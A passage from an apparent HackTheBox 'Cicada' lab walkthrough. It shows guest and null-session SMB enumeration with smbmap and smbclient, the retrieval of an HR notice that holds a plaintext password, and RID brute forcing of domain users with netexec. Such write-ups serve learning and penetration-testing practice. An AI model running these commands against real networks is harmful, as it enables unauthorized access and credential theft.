 ![smbmap_guest_nopasswd](GitHubv2/HackTheBox/EASY/Cicada/screenshots/smbmap_guest_nopasswd.png)

Most shares are inaccessible except for `HR` and `IPC$`.

---

### 2.5 Inspecting HR Share

We recursively list the contents of the `HR` share:

``` bash
smbmap -H 10.10.11.35 -u 'guest' -p '' -r HR
```

![smbmap_guest_hr](GitHubv2/HackTheBox/EASY/Cicada/screenshots/smbmap_guest_hr.png)

We find a file named `Notice_from_HR.txt`.

---

### 2.6 Retrieving Sensitive File

We connect via `smbclient` to download the file:

``` bash
smbclient //10.10.11.35/HR -N 
get "Notice from HR.txt" 
cat Notice\ from\ HR.txt
```

![smbclient_hr_null](GitHubv2/HackTheBox/EASY/Cicada/screenshots/smbclient_hr_null.png)

**Finding:**  
The file contains a plaintext password:

`Cicada$M6Corpb*@Lp#nZp!8`

We save it into a file named `credentials.txt` for later use.

![password](GitHubv2/HackTheBox/EASY/Cicada/screenshots/password.png)

---

### 2.7 Enumerating Domain Users via RID Brute Force

**Note:** RID brute force is an efficient technique in Active Directory environments as it enumerates accounts by incrementing the Relative Identifier (RID) portion of the Security Identifier (SID). It does not require a username list and can reveal built-in and custom accounts.

As we still do not have a valid username, we enumerate users by brute-forcing RIDs:

``` bash
netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute
```

![netexec_guest_ridbrute](GitHubv2/HackTheBox/EASY/Cicada/screenshots/netexec_guest_ridbrute.png)
